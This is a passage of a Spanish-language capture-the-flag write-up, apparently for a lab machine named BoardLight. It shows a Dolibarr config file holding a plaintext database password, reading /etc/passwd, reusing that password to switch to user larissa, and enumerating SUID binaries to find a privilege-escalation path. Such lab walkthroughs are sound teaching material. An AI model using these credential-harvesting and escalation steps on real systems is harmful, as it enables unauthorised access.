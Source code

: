 ```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Listamos los `usuarios` del `sistema` con `directorio home`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
fwupd-refresh:x:128:135:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
```

Nos convertimos en el `usuario larissa`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Password: 
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
larissa
```

Listamos `privilegios SUID` y me llama la atención el `binario enlightenment`

```
larissa@boardlight:/home$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```
